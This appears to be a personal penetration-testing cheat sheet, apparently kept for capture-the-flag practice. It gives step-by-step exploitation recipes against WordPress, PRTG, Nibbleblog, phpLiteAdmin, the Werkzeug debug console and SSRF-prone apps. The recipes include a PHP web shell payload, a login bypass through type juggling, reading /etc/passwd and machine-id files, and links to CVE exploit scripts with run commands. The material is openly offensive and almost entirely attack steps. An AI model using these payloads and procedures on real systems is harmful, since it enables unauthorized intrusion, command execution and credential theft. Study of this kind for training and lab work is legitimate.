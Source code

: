 ### Wordpress non public exploit
* if able to login to the admin panel
  * go to apperance and select 404.php, replace content with reverse shell payload, setup listener, go to nonexisting page
  * [plugin shell upload](https://sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell)

### prtg
* [Python2 exploit](https://github.com/wildkindcc/CVE-2018-9276/blob/master/CVE-2018-9276.py )
* [Python3  exploit](https://github.com/A1vinSmith/CVE-2018-9276/blob/main/exploit.py )

### nibbleblog
* [Shell upload script](https://github.com/dix0nym/CVE-2015-6967)
```
python nibble.py --url URL --username USER --password  PASS -x PAYLOAD
```

### post form login bypass with type juggling
* if server using php post form login,
may check php type juggling
just add a `[]` between `password` and `=`

### code injection with phpliteadmin
* create a new database with name anything.php
* create new table name as shell with number of field 1
* 1 variable be name shell, type TEXT and default value <?php system($_GET[cmd])?> 
* trigger it with LFI, the file probably in /var/tmp/anything.php
* use with &cmd=command

### wekzeug console pin exploit
[Exploit guide](https://www.daehee.com/werkzeug-console-pin-exploit/)
``` bash
# copy the exploit script and fill in all public and private bits
# getattr(mod, '__file__', None) is the absolute path of an app.py in the flask directory(see traceback)
# mac address = /sys/class/net/eth0/address
echo MAC | tr -d ":" #get the correct format
python -c 'print(0xFORMMATED_STRING)'#get the decimal value of the address
# For machine_id, check either
/etc/machine-id
/proc/sys/kernel/random/boot_id
# cgroup value
/proc/self/cgroup
#append the cgroup id to machine id
#then run the script to get PIN
#might have to change the hash type if the created PIN is incorrect
```

### SSRF to LFI
[SSRF to LFI](http://hassankhanyusufzai.com/SSRF-to-LFI/)
```bash
# Payload to check if the app vulnerable to SSRF
http://localhost:HTTP_PORT
# If it has a valid respond
file:///etc/passwd
```
